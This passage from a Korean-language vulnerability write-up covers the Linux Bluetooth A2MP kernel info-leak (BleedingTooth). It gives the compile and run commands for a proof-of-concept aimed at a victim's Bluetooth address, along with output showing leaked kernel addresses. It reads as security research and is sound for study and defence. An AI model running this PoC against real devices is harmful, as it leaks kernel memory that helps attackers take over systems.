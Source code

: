 
![image](https://user-images.githubusercontent.com/44149738/133656041-a69da858-5c90-4c17-a533-aa4a793f6f86.png)

`leak1` 부분은 초기화된 `id`와 `status` 필드가 포함되어있기 때문에 하위 2bytes를 `&`연산을 통해 제거해준다.

## Usage
POC를 사용하기 위해 `gcc -o poc poc.c -lbluetooth` 명령으로 아래 코드를 컴파일 할 수 있고, 컴파일된 바이너리는 `sudo ./poc 11:22:33:44:55:66` 명령으로 실행할 수 있다. 첫 번째 실행인자 부분에 공격 대상의 bd 주소를 입력하면 된다.

`Ubuntu 20.04` 에서 실행한 결과는 아래와 같다.
```
[*] Resetting hci0 device...
[*] Opening hci device...
[*] Connecting to victim...
[+] HCI handle: 100
[*] Creating AMP channel...
[*] Configuring to L2CAP_MODE_BASIC...
[*] Sending malicious AMP info request...
[+] Leaked: ffffffff98e00000, ffffffff98e001a4, 1229
```
Leak 된 데이터 중 첫 번째가 하위 바이트가 0으로 초기화되어있어서 처음에 base 주소인줄 알았지만 그저 구조상 2byte를 버린 데이터일 뿐 다른 의미는 없어보인다.

## Reference
https://github.com/google/security-research/security/advisories/GHSA-7mh3-gq28-gfrq
https://xcellerator.github.io/posts/bleeding_tooth/
https://www.venustech.com.cn/new_type/aqldfx/20210416/22626.html
https://code.woboq.org/linux/linux/net/bluetooth/a2mp.c.html
https://code.woboq.org/linux/linux/net/bluetooth/a2mp.h.html